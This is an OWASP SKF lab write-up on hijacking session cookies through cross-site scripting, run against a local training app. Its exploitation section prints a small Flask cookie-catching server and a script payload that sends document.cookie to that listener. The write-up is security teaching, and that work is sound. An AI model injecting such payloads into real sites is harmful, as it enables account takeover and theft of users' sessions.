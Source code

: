 # KBID 39 - HttpOnly Session hijacking

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:session-hijacking-xss
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:session-hijacking-xss
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

{% hint style="warning" %}
This exercise does not work for chrome!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine.
After installation, we go to the folder of the lab we want to practise 
"i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}


![Docker Image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

The attacker can compromise the session token by using malicious code or programs running at the client-side. The example shows how the attacker could use an XSS attack to steal the session token. 

Because the server keeps track of the current authenticated user by means of the value of the session cookie, whenever this session cookie gets compromised an attacker is able to impersonate this user by changing his current session cookie with the compromised session cookie in his browsers session storage.

Lets start the application and login with the default credentials.

{% hint style="info" %}
username : admin  
password: admin
{% endhint %}

![](.gitbook/assets/session-hijacking-xss-1.png)

After authenticating to the server we can see that the user has a text-area
field at his dissposal to insert user input. When we press submit we find that
this user supplied input is being reflected on the side of the client. This is a perfect indicator that we might want to start testing for cross site scripting attacks. 

{% hint style="info" %}
Refer to the XSS labs for more information how to test!
{% endhint %}

Now, at this point we established that the application is suspectible for cross site scripting attacks after playing around with some payloads. However, the goal for this lab is to obtain the users session cookie to perform a session hijacking attack and to be able to impersonate the user on the server.

We can tell if we can hijack the session information by inspecting the cookies and see if the HTTP/HttpOnly attribute is enabled for the session cookie.

Highlighted in red we find this attribute and see that it is not activated for this application

![](.gitbook/assets/session-hijacking-xss-2.png)

Now, we can inject the a piece of malicious javascript to see if we can prompt an alert box that displays the applications session information.

![](.gitbook/assets/session-hijacking-xss-3.png)

![](.gitbook/assets/session-hijacking-xss-4.png)

## Exploitation

Now that we have determined that we can 

1) inject malicious javascript

2) The HttpOnly attribute is not set for the session cookie

We can start building our malicious payload and hijack the session information to our malicious webserver.

```python
from flask import Flask, request, url_for, render_template, redirect, make_response
import requests

app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/<steal_cookie>", methods=['GET'])
def start(steal_cookie):
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install requests
$ python app.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

Now that the service is running we want to inject the malicious piece of javascript that is responsible for hijacking the victims session information.

![](.gitbook/assets/session-hijacking-xss-5.png)

```html
<script>new Image().src="http://localhost:1337/?stolen_cookie="+document.cookie;</script>
```

After injecting the malicious javascript in the text-area field we see the following GET request entering the server logs.

![](.gitbook/assets/session-hijacking-xss-6.png)

The attacker can now change the session cookie value in his browers console by the session cookie that we hijacked with our malicous payload to "hijack" the victims account. 

